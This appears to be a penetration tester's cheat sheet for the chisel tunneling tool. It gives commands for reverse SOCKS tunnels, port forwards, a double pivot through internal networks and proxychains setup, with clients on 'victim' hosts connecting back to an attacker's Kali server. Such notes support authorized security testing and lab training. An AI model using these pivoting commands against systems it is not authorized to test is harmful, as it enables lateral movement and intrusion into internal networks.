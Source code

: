> A HTTP tunneling tool that encapsulates our data stream within HTTP. It also uses the SSH protocol within the tunnel so our data will be encrypted.

References:
https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html


# Download

Download latest release
```
https://github.com/jpillora/chisel/releases
https://github.com/jpillora/chisel/releases/tag/v1.7.7
https://github.com/jpillora/chisel/releases/tag/v1.8.1
```

Copying the `chisel` binary to the `apache2` server folder
```bash
sudo cp $(which chisel) /var/www/html/
```

# SOCKS Tunnel

#HTTP_Tunneling #HTTP #SOCKS #Tunneling

## Chisel Server

Starting the reverse `chisel` server on port 8080
```bash
./chisel server --port 8080 --reverse
```
- `server` 
	- start the binary as a server with the `server` subcommand
- `--port 8080`
	- bind port 8080
- `--reverse`
	-  Allow the reverse port forward

## Chisel Client

### Linux

`chisel` client command (Linux) (Reverse Dynamic SOCKS)
```bash
/tmp/chisel client 192.168.101.169:8080 R:socks > /dev/null 2>&1 &
```
- `192.168.101.169:8080`
	- Connect to the Chisel server running on our Kali machine
- `R:socks`
	- Creating a reverse SOCKS tunnel
	- `R` prefix specifies a reverse tunnel using a `socks` proxy
		- SOCKS Proxy is bound to port `1080` by default
- `> /dev/null 2>&1 &`
	- Shell redirections force the process to run in the background, which will free up our shell

### Windows

`chisel` client command (Windows) (Reverse Dynamic SOCKS)
```powershell
.\chisel.exe client 192.168.45.138:8080 R:socks
```

### SOCKS Tunnel with port forward

Utilizing `chisel` to set up a reverse port forwarding to port 80 on an internal machine
```powershell
.\chisel.exe client 192.168.45.225:8080 R::172.16.54.169:
```

### Two way Chisel setup

Utilizing `chisel` to set up a reverse dynamic SOCKS tunnel and port forwarding
```powershell
.\chisel.exe client 192.168.45.173:8080 R:socks 10.10.84.141:79:127.0.0.1:6969
```
```
.\chisel.exe client [server_ip]:[server_port] [local_internal_ip]:[local_internal_port]:[server_local_ip]:[server_local_port]
```
- `192.168.45.173:8080`
	- Server IP and Port
- `10.10.84.141:79`
	- The current machine IP and Port
- `127.0.0.1:6969`
	- Local IP and Port at the Server
- Scenario
	- Kali <- Intermediary <- Internal
	- This allows Internal machine to use the chisel setup to talk to Kali 
		- E.g., Kali's webserver at port 6969 because of `127.0.0.1:6969` by talking to the intermediary machine at port 79 because of `10.10.84.141:79`
			- Using something like this `wget -Uri http://10.10.84.141:79/somefile.txt -OutFile somefile.txt`

Utilizing `chisel` to set up a reverse dynamic SOCKS tunnel and two port forwards
```powershell
.\chisel.exe client 192.168.45.204:8080 R:socks 10.10.80.147:7777:127.0.0.1:7777 10.10.80.147:8888:127.0.0.1:8888
```

## Double Pivot

Start the reverse `chisel` server on port 8080 on your Kali
```
./chisel server --port 8080 --reverse
```

Navigate to the first host that resides on both external and internal network
Utilize `chisel` to set up a reverse dynamic SOCKS tunnel
```powershell
.\chisel.exe client 192.168.70.123:8080 R:socks
```

Start the reverse `chisel` server on port 9090 on the first host
```bash
.\chisel.exe server --port 9090 --reverse
```

Navigate to the second host that resides on the current internal network and the second internal network
Utilize `chisel` to set up a reverse dynamic SOCKS tunnel
```
.\chisel.exe client 10.10.69.150:9090 R:2080:socks
```

Edit `proxychains4.conf`
```
sudo nano /etc/proxychains4.conf
```
```
socks5  127.0.0.1 1080
socks5  127.0.0.1 2080
```

# Port forward

#Port_Forwarding 

## Local Port Forward
> Forwarding opened ports on target, back to the server

Starting the reverse `chisel` server on port 8080
```bash
./chisel server --port 8080 --reverse
```

`chisel` client command (Windows)
```powershell
.\chisel.exe client 192.168.45.181:8080 R:[Kali_Port]:127.0.0.1:[Victim_Port]
```

## Remote Port Forward
> Opening and forwarding ports on target, back to the server

Starting the reverse `chisel` server on port 8080
```bash
./chisel server --port 8080 --reverse
```

`chisel` client command (Windows)
```powershell
.\chisel.exe client 192.168.45.181:8080 445:127.0.0.1:445
```
